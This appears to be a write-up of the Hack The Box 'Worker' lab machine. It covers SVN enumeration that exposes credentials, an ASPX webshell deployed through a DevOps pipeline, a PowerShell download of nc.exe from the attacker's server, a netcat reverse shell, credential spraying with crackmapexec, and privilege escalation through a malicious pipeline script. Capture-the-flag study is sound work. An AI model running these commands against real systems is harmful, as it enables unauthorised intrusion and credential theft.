

# [Worker](https://app.hackthebox.com/machines/worker)

```bash
nmap -p- --min-rate 10000 10.10.10.203 -Pn
```


After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p80,3690,5985 10.10.10.203
```


From port (3690), it means `SVN` open, let's enumerate this service.

What is SVN=> Subversion is used for maintaining current and historical versions of projects. Subversion is an open source centralized version control system. It's licensed under Apache. It's also referred to as a software version and revisioning control system. Default port: 3690.


```bash
svn checkout svn://10.10.10.203
```


```bash
svn log
```


Here, we can go back to **last commits**, via `-r` option,.

```bash
svn up -r1
```


Let's go to second one.
```bash
svn up -r2
```


Let's read this file `deploy.ps1` powershell script.


From  here, we grab **sensitive credentials**.

nathen: wendel98


I add this ip address into '/etc/hosts' file as '**worker.htb**'


Let's do subdomain enumeration via `wfuzz`.

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.10.203 -H 'Host: FUZZ.worker.htb' --hh 703
```


I add all subdomains into my '/etc/hosts' file.


Let's access devops.worker.htb by entering grabbed credentials.


I take `alpha` one from here, as because I can access here from website (enumeration via `wfuzz` command)


Our target application is here.


From response headers, I see that is 'X-Powered-By: ASP.NET' , that's why I need to upload malicious `.aspx` file.


Let's create a branch and upload our webshell, then deployment.

1.Create a branch


2.Upload a webshell.


3.Go to Pipelines for deployment.


Final result is here.


Let's add reverse shell here.

1.First, open http server to serve `nc` binary.
```bash
python3 -m http.server --bind 10.10.16.6 8080
```


2.Then, run a below command on webshell to download `nc` binary.
```bash
powershell -c wget 10.10.16.6:8080/nc.exe -outfile \programdata\nc.exe
```


3.Then, write your reverse shell command.
```bash
\programdata\nc.exe -e cmd.exe 10.10.16.6 1337
```




I got reverse shell from port (1337).


I cannot find anything from C: disk, let's know another disks via below command.
```bash
wmic logicaldisk get deviceid, volumename, description
```

And I switched into 'W:' disk.


I find sensitive usernames and passwords credentials for a file 'passwd' on 'svnrepos/www/conf' directory.


users:
```bash
cat creds.txt | cut -d '=' -f1 > users
```
passwords:
```bash
cat creds.txt | cut -d '=' -f2 | sed 's/[[:space:]]*//g' > passwords
```


Let's do enumeration for this credentials via `crackmapexec` tool.
```bash
crackmapexec winrm 10.10.10.203 -u users -p passwords -d 'worker.htb' --no-bruteforce
```


worker.htb\robisl:wolves11 


Let's connect into machine via `evil-winrm` tool by using grabbed credentials.

```bash
evil-winrm -i 10.10.10.203 -u robisl -p wolves11
```


user.txt


Also, we can join into `devops.worker.htb` via grabbed credentials previously. (robisl:wolves11)

Here, we have 'PartsUnlimited' repository.


We have a privilege to create pipeline and I add malicious scripts into pipeline.

1.Pipelines -> Create a pipeline

2.Select repo.

3.Select starter pipeline


```yaml
trigger:
- master

pool: 'Setup'

steps:
- script: |
    whoami
    type c:\users\administrator\desktop\root.txt
  displayName: 'Pwn all the things'
```


Reminder! You can also change script part with your reverse shell command

Reminder! Don't forget to approve to see results.


root.txt


